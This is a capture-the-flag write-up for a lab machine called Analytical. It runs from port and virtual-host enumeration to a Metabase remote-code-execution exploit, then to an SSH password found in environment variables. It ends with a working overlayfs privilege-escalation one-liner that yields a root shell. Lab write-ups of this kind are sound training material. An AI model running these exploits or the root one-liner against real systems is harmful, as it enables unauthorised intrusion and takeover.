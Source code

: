 
## Port Scan

```shell
➜  ~ sudo nmap analytical.htb -p1-65535 -sS
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-23 14:07 CET
Nmap scan report for analytical.htb (10.129.229.224)
Host is up (0.040s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
5069/tcp  filtered i-net-2000-npr
10931/tcp filtered unknown
11760/tcp filtered unknown
53473/tcp filtered unknown
59101/tcp filtered unknown
```

This reveals mostly the web server plus a few irrelevant ports.

```shell
➜  ~ sudo nmap -sU --script broadcast-dhcp-discover -p 67,68 analytical.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-24 14:08 CET
Pre-scan script results:
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     Interface: eth0
|     IP Offered: 10.0.2.16
|     DHCP Message Type: DHCPOFFER
|     Server Identifier: 10.0.2.2
|     Subnet Mask: 255.255.255.0
|     Router: 10.0.2.2
|     Domain Name Server: 10.0.2.3
|_    IP Address Lease Time: 1d00h00m00s
Nmap scan report for analytical.htb (10.129.229.224)
Host is up (0.041s latency).

PORT   STATE         SERVICE
67/udp closed        dhcps
68/udp open|filtered dhcpc

```

The UDP port scan does not reveal much more.

## Directory Enumeration

```shell
➜  ~ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u analytical.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://analytical.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://analytical.htb/images/]
/css                  (Status: 301) [Size: 178] [--> http://analytical.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://analytical.htb/js/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The main website at port 80 does not have much to discover.

```shell
➜  ~ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt -u 10.129.229.224 --append-domain --domain analytical.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.129.229.224
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb Status: 200 [Size: 77858]
Progress: 653911 / 653912 (100.00%)
===============================================================
Finished
===============================================================

```

In VHOST enumeration, we revealed an interesting Virtual Host called `data` that explored, shows a Metabase website. Metabase is a vulnerable software.

## Exploit Metabase

To exlpoit Metabase there is existing code on GitHub: https://github.com/m3m0o/metabase-pre-auth-rce-poc.git but that requires a setup token. 

Luckily the setup token is visible in the HTML code of the page, probably for observability reasons and/or misconfigurations. Taking the token, the Exploit can be executed. 

```shell
python3 main.py -u http://data.analytics.htb -t [setup-token] -c "[command]"
```

Where `command` can be any valid reverse shell, for instance a Python reverse shell. 
## Docker Environment

Once the reverse shell succeeds we are into a Docker container. The username and password for the SSH are leaked in the environment variables so this step is quite straightforward.

```shell
~ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=8ab6a13b8ee6
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/app
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=cd
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#   #<<<<<<<<<<<<<<<<<<<<<<<< SSH PASSWORD!
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics           #<<<<<<<<<<<<<<<<<<<<<     SSH USER!
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/home/metabase
MB_DB_FILE=//metabase.db/metabase.db

```

Once logged in via ssh we are `metalytics` a user with enough privileges to attempt a privilege escalations and also the user flag in its home directory.
## Privilege Escalation

There is not much to do but noticing that this version of Ubuntu is vulnerable with respect to the famous overlay file system vulnerability. This one liner taken online will make it.

```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'

```

This opens a root reverse shell and allows privilege escalation and retrieving the flag from the root home. 

